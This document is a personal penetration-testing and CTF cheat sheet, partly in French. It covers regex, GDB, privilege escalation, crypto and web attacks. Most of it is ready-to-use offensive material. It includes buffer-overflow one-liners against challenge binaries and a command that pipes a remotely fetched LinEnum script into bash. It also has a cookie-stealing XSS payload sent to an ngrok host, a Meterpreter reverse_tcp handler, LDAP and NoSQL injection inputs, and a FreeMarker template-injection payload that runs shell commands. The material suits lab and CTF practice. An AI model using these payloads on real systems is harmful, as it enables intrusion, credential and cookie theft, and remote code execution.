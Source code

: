 # FISHINGIG
- goldfish 

# FORENSIC

tsurugi lab

# REGGEX SUBLIME

- ()      => cree un bloc ($1)
- []      => les caracteres a chercher sont a l'interieur
- \*       => en boucle minimum 0
- \+       => en boucle minimum 1
- ^       => tant qu'on a pas (carac suivant)
- .+      => tout tant qu'on a pas de newline

examples :
        (pub fn) ([a-z_]*)([^:\n]+):([a-zA-Z-]+)([ u0-9]*) .+

# GDB
| code      | Function                          |
|-----------| ----------------------------------|
|P      | Function address |
|si     | next instruction |
|finish | End current function |

x/(?1)wx (?2) => print (?2) le nombre de cases memoires suivant l'instruction (?2)

examples :
print les 30 cases memoires suivantes de $esp
* x/30wx $esp

cat send standard entry into the pipe
* (perl -e 'print "A"x128 . "wathever"' ; cat) | ./ch15

Other implementation for x64 in Python to write the address in little endian 
- { python -c 'from struct import pack ; print "B"*280 + pack ("<Q", 0x4005e7)' ; cat' } | ./ch35

x86 chr() to write hexa
 - (python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat ) | ./ch16

examples:
```
{ python -c 'from struct import pack; print "B" * 280 + pack("<Q", 0x400556)'; cat } | ./binaire 
```
```
( python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat) | binaire
```

# REVERSE SHELL
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

# BASH

--noprofile
Do  not  read  either  the system-wide startup file /etc/profile or any of the personal
initialization files ~/.bash_profile, ~/.bash_login, or ~/.profile.  By  default,  bash
reads these files when it is invoked as a login shell (see INVOCATION below).

--norc 
Do  not  read  and execute the system wide initialization file /etc/bash.bashrc and the
personal initialization file ~/.bashrc if the shell is interactive.  This option is  on 
by default if the shell is invoked as sh.

# PRIVESC

### LINUX
Get proper TTY shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
or 
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
ctrl + z 
stty raw -echo; fg
```

Create simple http server
```
python3 -m http.server
```

Curl a file and pipe it to bash
```
curl 10.10.14.249:9999/LinEnum.sh | bash
```
wget a file 
```
wget -O LinEnum.sh 10.10.14.249:9999
```
List processes
```
ps auxwww
```
Binaries capabilities
```
getcap -r / 2>/dev/null
```
Analyze file
```
file "yolo"
```
Find SUID files
```
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```
Start a bash without a profile
```
sh -i /home/nobody/.ssh/ssh_key USER@IP -t bash --noprofile --norci  
```                                                                 
### WINDOWS

Download file PowerShell
```
certutil -urlcache -f http://10.10.14.28:8000/41020.exe 41020.exe
```
# CRYPTO
```
cat file | 
```
Decode openssl -salted
```
bruteforce-salted-openssl -t 6 -f ~/Téléchargements/rockyou.txt -c AES-256-CBC -d SHA256 decoded_drupal.txt -1
```
Encode openssl
```
openssl enc -in LEFICHIERDENTREE -out LEFICHIERDESORTIE -d -AES-256-CBC -md sha256 -pass 'pass:LEPASSQUETATROUVE'
```

# XSS
```
'onfocus="alert(1)"autofocus='
```

## NGROK

```
<script>window.location.href='http://ngrok.io/?cookie='%2bdocument.cookie</script>
```

# METERPRETER

Handle connexions
```
use exploit/multi/handler
```
Windows handler
```
set payload windows/meterpreter/reverse_tcp
```
Interact with sessions
```
sessions -i 1                                   
```
background the meterpreter so we can use other tools
```
ctrl + z
```

windows exploit suggester (session number need to be added to the options)
```
use post/multi/recon/local_exploit_suggester
```


# DIVERS
```
socat tcp-listen:2222, fork tcp 192.168.100.12:22
```

LDAP injection tester username avec ) si error
```
username=* pass=*)(& 
```
### nosql
Regex to use until you have the good size then inser chars before the '.' who means "Everything"
```
NOSQL usr_name[$ne]=h4cker&usr_password[$ne]=abc [$ne] == OK
NOSQL usr_name[$regex]=.{1}&usr_password[$ne]=abc 
```

## template injection 
```
https://portswigger.net/blog/server-side-template-injection 
```
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
```

